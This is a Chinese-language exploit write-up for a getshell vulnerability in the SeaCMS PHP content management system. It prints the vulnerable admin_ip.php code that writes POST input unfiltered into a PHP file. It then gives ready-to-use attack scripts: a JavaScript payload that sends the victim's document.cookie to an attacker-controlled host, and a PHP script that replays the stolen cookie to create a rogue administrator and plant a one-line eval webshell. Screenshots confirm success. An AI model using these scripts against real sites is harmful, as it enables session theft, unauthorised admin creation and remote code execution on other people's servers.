 seacms getshell
===============

一、漏洞简介
------------

海洋cms是一款简单的php内容管理系统，主要用于视频网站，采用PHP+MYSQL架构，未使用框架

二、漏洞影响
------------

三、复现过程
------------

后台代码如下

    <?php

    header('Content-Type:text/html;charset=utf-8');

    require_once(dirname(__FILE__)."/config.php");

    CheckPurview();

    if($action=="set")

    {

        $v= $_POST['v'];

        $ip = $_POST['ip'];

        $open=fopen("../data/admin/ip.php","w" );

        $str='<?php ';

        $str.='$v = "';

        $str.="$v";

        $str.='"; ';

        $str.='$ip = "';

        $str.="$ip";

        $str.='"; ';

        $str.=" ?>";

        fwrite($open,$str);

        fclose($open);

        ShowMsg("成功保存设置!","admin_ip.php");

        exit;

    }

    ?>

这里根本没有经过过滤，直接将变量写进去，可以写一个脚本利用

代码如下

    # test.js

    var img = new Image();

    img.src=  "http://127.0.0.1/test.php?x=" + document.cookie + "&p=" + location.pathname;

    # test.php

    <?php

        function Requests($url, $data, $cookie = '', $type = 1){

            $ch = curl_init();

            $params[CURLOPT_URL] = $url;

               $params[CURLOPT_HEADER] = FALSE;

            $params[CURLOPT_SSL_VERIFYPEER] = false;

            $params[CURLOPT_SSL_VERIFYHOST] = false;

            $params[CURLOPT_RETURNTRANSFER] = true;

            if ($type === 1) {

                $params[CURLOPT_POST] = true;

                $params[CURLOPT_POSTFIELDS] = $data;

            }

            $params[CURLOPT_COOKIE] = $cookie;

            curl_setopt_array($ch, $params);

            $output = curl_exec($ch);

            file_put_contents('log.txt', $output, FILE_APPEND);

            curl_close($ch);

        }

        $C = $_GET['x'];

        $P = $_GET['p'];

        $P = substr($P, 0, strlen($P)-21);

        file_put_contents('c.txt', $C);

        file_put_contents('p.txt', $P);

        $url_1 = 'http://192.168.113.128'.$P.'admin_manager.php?action=add';

        $url_2 = 'http://192.168.113.128'.$P.'admin_ip.php?action=set';

        $data_1 = 'username=test&pwd=test&pwd2=test&groupid=1';

        $data_2 = 'v=0&ip=+";@eval($_POST[qwer]);"';

        Requests($url_1, $data_1, $C);

        Requests($url_2, $data_2, $C);

这两个脚本会将cookie和后台路径保存在文件中，并且会向后台发送数据，添加一个系统管理员，同时会在系统中写入一个一句话木马，需要注意的是修改域名为测试域名。测试如下

![](./resource/Seacms后台getshell/media/rId24.png)

代码已经写进了后

![](./resource/Seacms后台getshell/media/rId25.png)

管理员添加成功

![](./resource/Seacms后台getshell/media/rId26.png)

\<
